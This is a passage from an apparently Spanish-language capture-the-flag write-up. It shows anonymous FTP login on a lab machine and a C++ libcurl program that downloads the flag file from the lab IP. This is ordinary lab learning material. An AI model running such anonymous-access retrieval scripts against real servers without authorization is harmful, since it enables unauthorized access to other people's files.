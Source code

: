 Nos pide credenciales y probamos con _"anonymous y sin contraseña"_. Con `ls` y `get` podremos acceder a la flag y tendremos completada la máquina.

<h2 class="amarillo">Scripting con Python3 y C++</h2>

**C++**
```c++
#include <curl/curl.h>
#include <fstream>
#include <iostream>

size_t write_callback(void *ptr, size_t size, size_t nmemb, void *stream) {
  std::ofstream *file = static_cast<std::ofstream *>(stream);
  file->write(static_cast<char *>(ptr), size * nmemb);
  return size * nmemb;
}

int main() {
  CURL *curl;
  CURLcode res;

  std::string ftp_url = "ftp://10.129.221.222/flag.txt";
  std::string usuario = "anonymous:";
  std::ofstream archivo_local("script_cpp.txt", std::ios::binary);

  if (!archivo_local) {
    std::cerr << "[!] Error al abrir el archivo local para escribir.\n";
    return 1;
  }

  curl_global_init(CURL_GLOBAL_DEFAULT);
  curl = curl_easy_init();

  if (curl) {
    curl_easy_setopt(curl, CURLOPT_URL, ftp_url.c_str());
    curl_easy_setopt(curl, CURLOPT_USERPWD, usuario.c_str());
    curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_callback);
    curl_easy_setopt(curl, CURLOPT_WRITEDATA, &archivo_local);

    res = curl_easy_perform(curl);

    if (res != CURLE_OK) {
      std::cerr << "[!] Error: " << curl_easy_strerror(res) << std::endl;
    }

    curl_easy_cleanup(curl);
  }

  curl_global_cleanup();
  archivo_local.close();

  return 0;
}
```
